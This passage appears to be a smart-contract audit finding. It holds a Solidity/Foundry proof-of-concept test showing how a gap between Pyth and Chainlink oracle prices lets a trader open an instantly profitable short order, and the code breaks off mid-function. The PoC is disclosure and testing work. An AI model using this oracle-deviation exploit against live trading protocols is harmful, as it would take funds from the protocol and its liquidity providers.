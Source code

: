 This goes against the core principles of the system when this scenario happens it allows users to create an order that will be in an instant profit.

```
PoC

function test_Wrongs_Price() public {
        uint256 collateralAmount = 10 ether;
        uint256 currentMarketPrice = 3000;
        uint256 currentMarketPrice2 = 3040;
        bool isLong = true;
        uint256 initialBalance = 10 ether;

        uint256 marketMaxLeverage = orderManager.getMarket(ETH_MARKET_ID).maxLeverage;
        uint256 orderSize = collateralAmount + 1 ether;
        uint256 openingFeeAmount = orderSize * DEFAULT_OPENING_FEE / MAX_FEE;

        collateralAmount += openingFeeAmount;

        // NOTE You will have to comment out the line updatePriceChainlink(chainlinkEthFeed, price);  
        // line in function _settleorder
        updatePythPrice(pythAddress, PYTH_PRICE_ID_ETH, currentMarketPrice);

        // Price of chainlink deviates from by 40 
        updatePriceChainlink(chainlinkEthFeed, currentMarketPrice2);

        deal(WETH, TRADER_1, collateralAmount);

        bytes32 orderId = orderManager.getOrderId(ETH_MARKET_ID, ethVaultAddress, TRADER_1, !isLong, 0);

        OrderDS.Order memory orderStruct = OrderDS.Order({
            orderId: orderId,
            marketId: ETH_MARKET_ID,
            userAddress: TRADER_1,
            orderType: OrderDS.OrderType.OPEN_NEW_POSITION,
            isLong: false,
            isLimitOrder: false,
            deadline: 0,
            collateralAmount: collateralAmount,
            orderSize: orderSize,
            expectedPrice: 0,
            maxSlippage: DEFAULT_TRADE_SLIPPAGE
        });

        vm.startPrank(TRADER_1);
        ERC20(WETH).approve(address(orderManager), collateralAmount);

        orderManager.createOrder(orderStruct, address(0));

        vm.stopPrank();

        // TRADER_1s Short gets filled at 3040
        _settleOrder(orderId,currentMarketPrice);

        skip(1);
        // Price deviates stops and goes back to 3000
        updatePythPrice(pythAddress, PYTH_PRICE_ID_ETH, currentMarketPrice);
        updatePriceChainlink(chainlinkEthFeed, currentMarketPrice);

        orderStruct = OrderDS.Order({
            orderId: orderId,
            marketId: ETH_MARKET_ID,
```